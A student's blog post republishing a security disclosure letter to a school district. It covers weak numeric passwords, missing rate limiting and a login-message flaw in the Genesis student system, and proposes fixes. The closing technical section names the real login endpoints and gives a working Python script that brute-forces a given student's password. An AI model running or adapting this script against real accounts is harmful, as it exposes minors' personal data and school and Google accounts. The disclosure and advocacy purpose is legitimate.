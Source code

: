 @Title = School Password Concern
@Author = Connor Slade
@Date = 02-08-21
@Description = How I hacked my school (that caught your attention huh)
@Tags = School, Passwords, Hacking, Genesis
@Path = other/school-password-concern
@Assets = .

---

# 🏫 School Password Concern

> A document I made a while ago (Apr 2021) and sent to my school district addressing the poor student account security.
>
> About 18 days later the school IT person responded saying they have a mechanism in place to limit the number of password retries to 8.
> I looked into how they implemented this and found that when an account is tried more than 8 it disables the account...
> At first I thought they just shifted the problem because now you could lock people out of their accounts by spamming login attempts.
> But I soon realized that it didn't even fix the original problem!
>
> When your login failed it would show an error message. If it was because of an incorrect password this message would *always* be `"Username or password is incorrect."`.
> But if you had a correct passwords but the account was under the 'ratelimit' it would say `"Account is Inactive."`. So you could still tell if the password was correct.
>
> A few months later I rewrote the system in Rust making it like thousands of times faster, often cracking a password in under 30 seconds.
>
> And nothing much has happened since. I hope they fix this because I cant have been the only one to see a problem here.
>
> Source Code [here](https://raw.githubusercontent.com/Basicprogrammer10/SchoolPasswordCrack).

## 🧠 Intro

I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly.
This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem

How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible.
This includes the following (in no particular order)

- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account.
I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it).
Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes

Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes!
So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts.
Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number.
This means that for many student passwords only four digits need to be cracked.
This is bad because it lowers the time to crack passwords.
I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes.
This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords.
Secure passwords have 10 characters made up of letters, numbers, and special characters.
These passwords should not be able to be seen by teachers or other staff but could be reset if needed.
This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system.
This is something that would require working with the Genesis 'team' to fix but would be *ok* if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession.
For example, the program mentioned above was able to make over 30 requests per second.
This allows simple brute force attacks (such as this one) to work.
Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA.

### 🌠 Fixes Conclusion

There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used.
Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion

Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it.
At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk.
I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security!
As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students.
I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor

## 📅 Technical Details (If you are interested)

Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164).
This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends a GET request to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/view` to get the `JSESSIONID` cookie assigned by the server.
Then it sends POST requests to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack.
I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account.
Code comments are included to help show what each line does.

```python
import requests  # Import needed module

url      = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check'  # Define api uri
checkUrl = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/view?gohome=true'  # Define defult url

# Put student Email here (ex: example@domain.com)
email = ''

assert email != '' # Dont run if email is empty
print(f'[*] Starting Crack for {email}')  # Print email to crack

for i in range(9999):  # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}'  # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]')  # print what password is being tried

    # Create new session to hold cookies
    ses = requests.Session()

    # Let server Create cookies needed to proform exploit (JSESSIONID)
    ses.get(checkUrl)

    # Get Data to send
    dataToSend = {"j_password": toTry, "j_username": email}

    # Try Password
    data = ses.post(url, data=dataToSend)

    # Check if is correct password
    if not "Account is inactive" in data.text and not "workStudentId" in data.text:
        continue
    print(f'\n[*] Complete: {toTry}')  # if passwords is correct print it
    break  # Exit the loop when the password has been found
```

Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations.
To speed this up multi-threading can be used to attempt more passwords in the same amount of time.
